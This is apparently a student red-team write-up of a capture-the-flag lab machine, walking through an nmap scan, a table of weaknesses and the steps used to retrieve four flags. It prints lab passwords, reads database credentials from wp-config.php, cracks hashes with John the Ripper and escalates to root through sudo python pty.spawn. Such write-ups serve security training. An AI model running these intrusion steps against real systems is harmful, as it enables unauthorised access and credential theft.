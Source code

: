 # **Red Team: Summary of Operations**

## TARGET 1

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

nmap -sV 192.168.1.110

![1](/Images/1/1.png)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-200** | Exposure of sensitive Information to an unauthorized actor | Allowing sensitive information to be compromised so easily can result in a breach that can have significant affects on your business
**CWE-521** | Weak Password Requirements | Not enforcing a password policy allows users to choose passwords that they can easily remember which are not typically secure.
**CWE-284** | The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. | A user is able to execute elevated commands when they were not preauthorized to do so
**CWE-98** | An improper control of filename for include or require statement in PHP allows a LFI allowing remote attackers to execute arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

## Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**flag1:**  `flag1{b9bbcb33e11b80be759c4e844862482d}`

- **CWE-200** Exposure of sensitive Information to an unauthorized actor
    
    1. On google chrome input the `Url: 192.168.1.110/service.html`
    2. Right click / view page source code / click on 3 dot menu
    3. Search: flag1

     **Flag1**

    ![2](/Images/1/2.png)

---

**flag2:** `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`

- **CWE-521:** Weak Password Requirements

    Access to the system was obtained through this weakness. The product does not require users to use strong passwords. This vulnerability makes it easier for attackers to compromise user accounts. User Michael utilizes his username as a password. Hydra can easily brute-force the password. Nevertheless, guessing the password was the efficient choice.
    
    Exploit:

    ```
        ssh michael@192.168.1.110
        Password: michael
        Cd ../../
        Find -iname “*flag*” 2>/dev/null
        Cat /var/www/fllag2.txt
    ```

    **Flag2**

    ![3](/Images/1/3.png)

---

**flag3:**  `flag3{afc01ab56b50591e7dccf93122770cd2}`

- **CWE-284** Server does not properly restrict access to a resource

    Privilege escalation is preceded by this vulnerability. The root password to access the SQL database is reachable in plain text on the file wp-config.php
    
    Exploit:
    ```
    Nano wp-config.php
    Look down mysql database password
    mysql -u root -p
    Password: R@v3nSecurity
    ```

    ![4](/Images/1/4.png)

    ```
    mysql -u root -p
    mysql> show databases;
    mysql> use wordpress;
    mysql> show tables;
    mysql> select * from wp_posts;
    ```

    **Flag3**

    ![11](/Images/1/11.png)  

    >#### note: Flags 3 and 4 can be found in different ways. Look at the end of this report for alternative methods to find Flag3.

---

**flag4:**  `flag4{715dea6c055b9fe3337544932f2941ce}`

- **CWE-284** Improper Access Control

    Privilege on the system is obtained in this step after cracking the hashed password of a privileged user found in the SQL database. This allows to execute a Python Script that leads to a root access to the system.

- **CRACKING THE HASH PASSWORD**

    Exploit:

    1. In the sql database run: 

        ```
        mysql> show databases;
        mysql> use wordpress;
        mysql> show tables;
        mysql> SELECT* FROM wp_posts;
        ```

        ![5](/Images/1/5.png)

    2. Create a file with the hashes and usernames in john the ripper format

        ![6](/Images/1/6.png)
        
            John hashes.txt -wordlist=’usr.share/wordlist/rockyou.txt’
        
        ![7](/Images/1/7.png)
    
- **PRIVILEGE ESCALATION USING A PYTHON SCRIPT**
    
    The user Steven has python root access. This led to a root privilege escalation.

    Exploit:
    
    1. Steven has the privilege to run python language as a root user
        ```   
            su steven
            Password: pink84
            sudo -l  
        ```
    
        ![8](/Images/1/8.png)

    2. Python Script
    
        sudo python -c 'import pty;pty.spawn("/bin/bash")'
 
        ![9](/Images/1/9.png)
    
        cat /root/flag4.txt
    
        **Flag4**

        ![10](/Images/1/10.png)

***

# Alternative methods to access flag 3 and 4

## Binary File: **Flag 3**

1. Needs to be Root
2. In the directory:  /var/lib/mysql 

    ```
    grep -r flag3 *
    nano lib_logfile0
    ctrl w flag3
    ```

**Flag3**

![12](/Images/1/12.png)

## SQL database: **Flag 3 and 4**

```
mysql -u root -p
mysql> show databases;
mysql> use wordpress;
mysql> show tables;
mysql> select * from wp_posts;
```

  **Flag3 and Flag4**
 
![11](/Images/1/11.png)



> Others Exploits:
CVE-2014-6271 Shellshock vulnerability. It is possible to gain shell access through Remote code execution.